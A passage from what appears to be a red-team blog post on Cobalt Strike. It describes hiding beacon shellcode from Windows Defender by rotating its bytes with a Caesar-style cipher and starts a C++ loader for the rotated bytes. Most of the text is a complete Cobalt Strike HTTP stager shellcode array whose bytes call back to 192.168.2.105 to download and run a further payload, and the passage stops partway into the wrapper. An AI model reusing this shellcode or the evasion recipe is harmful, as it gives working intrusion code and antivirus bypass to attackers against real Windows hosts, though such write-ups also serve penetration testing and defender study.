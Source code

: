 ![Plaintext shellcode (rotated)](/img/playing-with-cobalt-strike-2-12.webp)

Ah, the chief security product from one of the most technologically dominant companies on the planet, defeated by the Ceaser Cipher. That may have been a premature celebration, however.

### Writing a Shellcode Wrapper

To reconstruct and load the array into memory for execution, I wrote a simple wrapper in C++, taking inspiration from [this post](https://www.trustedsec.com/blog/red-teaming-with-cobalt-strike-not-so-obvious-features).

```cpp
// Rotates shellcode bytes in memory to avoid on-disk detection by Windows Defender
// Idea from https://www.ired.team/offensive-security/defense-evasion/evading-windows-defender-using-classic-c-shellcode-launcher-with-1-byte-change

#include <windows.h>

int main() {
  // This is the array generated by CS, which gets detected instantly by Defender
  // unsigned char array[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x90\x1f\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x55\x6e\x71\x75\x65\x75\x65\x2f\x76\x31\x30\x2e\x30\x35\x2f\x5a\x30\x51\x5a\x39\x5a\x58\x45\x58\x47\x45\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x41\x63\x63\x65\x70\x74\x3a\x20\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x6a\x73\x6f\x6e\x2c\x20\x74\x65\x78\x74\x2f\x68\x74\x6d\x6c\x2c\x20\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x78\x68\x74\x6d\x6c\x2b\x78\x6d\x6c\x0d\x0a\x41\x63\x63\x65\x70\x74\x2d\x4c\x61\x6e\x67\x75\x61\x67\x65\x3a\x20\x73\x71\x0d\x0a\x41\x63\x63\x65\x70\x74\x2d\x45\x6e\x63\x6f\x64\x69\x6e\x67\x3a\x20\x67\x7a\x69\x70\x2c\x20\x62\x72\x0d\x0a\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x31\x30\x2e\x30\x3b\x20\x57\x69\x6e\x36\x34\x3b\x20\x78\x36\x34\x29\x20\x41\x70\x70\x6c\x65\x57\x65\x62\x4b\x69\x74\x2f\x35\x33\x37\x2e\x33\x36\x20\x28\x4b\x48\x54\x4d\x4c\x2c\x20\x6c\x69\x6b\x65\x20\x47\x65\x63\x6b\x6f\x29\x20\x43\x68\x72\x6f\x6d\x65\x2f\x36\x32\x2e\x30\x2e\x33\x32\x30\x32\x2e\x39\x34\x20\x53\x61\x66\x61\x72\x69\x2f\x35\x33\x37\x2e\x33\x36\x0d\x0a\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\xa1\x03\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x32\x2e\x31\x30\x35\x00\x00\x00\x00\x00";
  
  // This is the array generated by CS after running through my ceaser cipher, which does not get detected on disk
```